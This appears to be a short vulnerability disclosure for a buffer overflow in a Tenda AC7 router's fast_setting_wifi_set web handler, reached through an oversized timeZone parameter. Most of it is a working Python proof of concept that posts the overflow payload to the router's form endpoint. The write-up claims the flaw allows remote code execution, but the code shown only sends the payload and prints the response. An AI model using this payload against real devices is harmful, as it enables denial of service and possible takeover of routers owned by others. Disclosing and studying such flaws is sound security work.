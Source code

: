 form_fast_setting_wifi_set timeZone
---------------------------------------

### Vulnerability Details

This vulnerability lies in the `/goform/fast_setting_wifi_set` page

Tengda AC7 V1.0 V15.03.06.44 found a buffer overflow caused by the timeZone parameter in the form\_fast\_setting\_wifi\_set function, which can cause RCE:

![](api/attachments/eRMd0alKhbE6/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/fast_setting_wifi_set"
headers = {
    "Host": "192.168.142.100",
    "Content-Length": "1391",
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "http://192.168.142.100",
    "Referer": "http://192.168.142.100/parental_control.html?random=0.7058891673130268&",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "close",
    "Cookie": "password=iqb1qw; bLanguage=cn"
}


long_part = "Raining101" * 0x100
timeZone_value = f"{long_part}:{long_part}"  

data = {
    "ssid": "1",
    "timeZone": timeZone_value
}

response = requests.post(url, headers=headers, data=data)
print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```

![](api/attachments/NFQh0mJKC3Fk/image/image.png)
